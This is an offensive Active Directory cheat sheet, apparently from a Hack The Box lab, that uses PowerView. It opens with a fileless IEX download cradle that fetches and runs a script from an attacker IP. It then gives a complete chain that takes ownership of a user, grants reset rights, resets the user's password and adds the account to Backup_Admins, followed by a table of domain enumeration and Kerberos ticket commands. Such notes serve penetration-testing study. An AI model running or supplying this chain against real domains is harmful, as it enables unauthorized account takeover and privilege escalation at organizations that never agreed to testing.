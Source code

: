 # PowerView.ps1

## Fileless (Running PS1 without saving to disk)
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
```

## Take Ownership over User
- Prerequisite is to have PowerView loaded

```
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```

## Reset Password
- Prerequisite is to have PowerView loaded
- Take ownership of user

```
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
```

## Build New Credential
```
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
```

## Add user to group
## Reset Password
- Prerequisite is to have PowerView loaded
- Take ownership of user
- Build the $cred
```
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
```

## Check AD Groups with PowerView
```
Get-DomainGroup -MemberIdentity Herman | select SamAccountName
```

## All Steps in Order
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
$pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
Get-DomainGroup -MemberIdentity Herman | select SamAccountName
```

## Get UserAccountControl for Domain Users
```
Import-Module .\PowerView.ps1 OR . .\PowerView.ps1
Get-DomainUser * -AdminCount | select samaccountname,useraccountcontrol
```

## DSQuery (find passwords that dont expire)
```
dsquery user "OU=Employees,DC=inlanefreight,DC=local" -name * -scope subtree -limit 0 | dsget user -samid -pwdneverexpires | findstr /V no
```

## PowerView Most Used Commands 
[Additional Reference: PowerShell and PowerView Modules](../Powershell%20AD%20%26%20Powerview%20Modules/README.md)

| Command | Description | 
| ---------------------------- | ---------------------------- |
| Export-PowerViewCSV | Append results to a CSV file | 
| ConvertTo-SID | Convert a user or group NAME to SID value | 
| Get-DomainSPNTicket | Requests the Kerberos ticket for a specified Service Principal Name (SPN) account | 
| Get-Domain | Returns the AD object for the current or specific domain | 
| Get-DomainController | Return a list of Domain Controllers for the specified domain | 
| Get-DomainUser | Will return all users or specific user objects in AD | 
| Get-DomainComputer | Will return all computers or specific computer objects in AD | 
| Get-DomainGroup | Will return all groups or specific group objects in AD | 
| Get-DomainOU | Search for all or specific OU in AD | 
| Find-InterestingDomainAcl | Finds object ACLs in the domain with modification rights set to non-built in objects | 
| Get-DomainGroupMember | Will return the members of a specific domain group | 
| Get-DomainFileServer | Returns a list of servers likely functioning as file servers | 
| Get-DomainDFSShare | Returns a list of all distributed file systems for the current (or specified) domain | 
| Get-DomainGPO | Will return all GPOs or specific GPO objects in AD | 
| Get-DomainPolicy | Returns the default domain policy or the domain controller policy for the current domain | 
| Get-NetlocalGroup | Enumerates local groups on the local or a remote machine | 
| Get-NetLocalGroupMember | Enumerates member of a specific local group | 
| Get-NetShare | Returns open shares on the local (or remote) machine | 
| Get-NetSession | Will return session information for the local (or a remote) machine | 
| Test-AdminAccess | Tests if the current user has admin access to the local or a remote machine | 
| Find-DomainUserLocation | Finds machines where specific users are logged in | 
| Find-DomainShare | Finds reachable shares on domain machines | 
| Find-InterestingDomainShareFile | Searches for files matching specific criteria on readable shares in the domain | 
| Find-LocalAdminAccess | Find machines on the local domain where the current user has local admin access | 
| Get-DomainTrust | Returns domain trusts for the current domain or a specified domain | 
| Get-ForestTrust | Returns all forest trusts for the current forest or a specified forest | 
| Get-DomainForeignUser | Enumerates users who are in groups outside of the user's domain | 
| Get-DomainForeignGroupMember | Enumerates groups with users outside of the group's domain and returns each foreign member | 
| Get-DomainTrustMapping | Will enumerate all trusts for the current domain and any others seen | 

- Another alternative to PowerView is the C# version called, SharpView.  Many of the same commands will work.